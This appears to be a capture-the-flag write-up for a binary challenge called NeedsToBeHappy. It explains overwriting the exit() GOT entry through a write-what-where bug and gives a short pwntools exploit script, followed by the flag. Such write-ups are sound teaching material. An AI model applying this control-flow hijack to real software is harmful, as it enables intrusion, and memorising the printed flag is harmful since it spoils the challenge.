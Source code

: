 # NeedsToBeHappy

### 📍 Description

Can you make the man happy and get the flag?

### 📄 Rules
- You cannot patch this binary. 
- The challenge must be solved by providing appropriate inputs.
- Do not modify the temp file.

## 🔑 Solution
The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import *  

context.binary = "./NeedsToBeHappy"
e: ELF = context.binary 
p = process()
p.sendline(b"y")
p.sendline(str(e.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(e.got["exit"]).encode("ascii"))
```

### 🚩 Flag

```plain
SPRITZ{PaRiPpaPPaA}
```
